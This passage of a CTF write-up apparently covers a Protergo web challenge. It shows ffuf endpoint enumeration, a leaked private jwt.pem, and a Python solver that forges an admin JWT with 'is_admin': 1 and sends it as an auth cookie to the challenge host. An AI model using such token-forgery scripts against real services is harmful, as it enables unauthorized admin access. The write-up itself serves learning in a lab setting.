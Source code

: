 Then, enumerate using ffuf. It was found that wordlist parts 17 and 19 obtained different endpoints.

![Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%206.png](Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%206.png)

![Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%207.png](Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%207.png)

`/LittleSecrets`

![Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%208.png](Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%208.png)

There is a private jwt.pem that can be decrypted using a passphrase to be used for login next.

`/portal_login`

![Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%209.png](Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%209.png)

The login feature, when registering, will provide an authentication cookie that can be used as an example to be recreated on [jwt.io](https://jwt.io/). Then, you can log in using that JWT and access the home with the `auth` JWT token cookie.
### Solver
```python
import jwt
import requests
from datetime import datetime, timedelta
import re

with open("private-decrypted.pem", "rb") as f:
   private_key = f.read()

base_url = "http://jakarta.ctf.protergo.party:10003/"

def craft_token():
   payload = {
         "iss": "admin",
         "iat": datetime.utcnow(),
         "exp": datetime.utcnow() + timedelta(seconds=18000),
         "is_admin": 1,
         "sub": "12",
         "jti": "65c08f9dd7459"
      } 

   jwt_token = jwt.encode(payload, private_key, algorithm="RS256")
   return jwt_token

def login(token):
   header = {
      "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36"
    }
   cookie = {
      "XSRF-TOKEN":"eyJpdiI6IlNYWkVFLzlkOE1vbEtyNHJsYnhaaVE9PSIsInZhbHVlIjoieVlaM1pzRmhEWHJPUFdqMTlFZVVyRGxvMXh0VEx2WFJyeG00Q0l3NFFyTXNWMjJZeTJmTW1NWVlNTXZXZENVMk9haStSb3lnSTR3OUFuaXMzeUlhNE9CNlNRdStFcy9QUW9CVHcxWjFrUHhrSWUwMlliNk9sTWZGQmZVdTlEZ1EiLCJtYWMiOiI3YWI1YzFmMGNkNDVjMTgzMGVhYmM4Yjc1OGU1ZjU1ZDA4ZjJlMWM5ZDEyMjBhY2FkM2NhODM4YjAwZWEyOTM2IiwidGFnIjoiIn0%3D;",
      "laravel_session":"eyJpdiI6Ik1VdTNDbGp4Y0Zpb080ZFpNMUNhU1E9PSIsInZhbHVlIjoiTTRybEpJNGRQdjg3aytWOXkwN3JMelZMeTNsa3BGWVZrcm03cHBuaEdkVGgzN0FDYnhkQXhneThLRXhqZUJab2lGZ25kdy9KYXByZ20wV1FKQ3MvbitvbmdnVUo0QlB5N3RDRFFuMUttd2NyK2J6bFhzQWIwYXdTMjB4ZnRrNkUiLCJtYWMiOiJmMTY0MTY3NjIwMmJlZWYyMDY5YjM0ODUzNjMyNDUxNjZmZTdiNzAyZTk5ZDQ3MzU4MjBiMmYzOGQ3OGY1MzA3IiwidGFnIjoiIn0%3D",
      "auth":f"{token}"
    }
   r = requests.get(base_url + "home", cookies=cookie, headers=header)
   
   return r
```
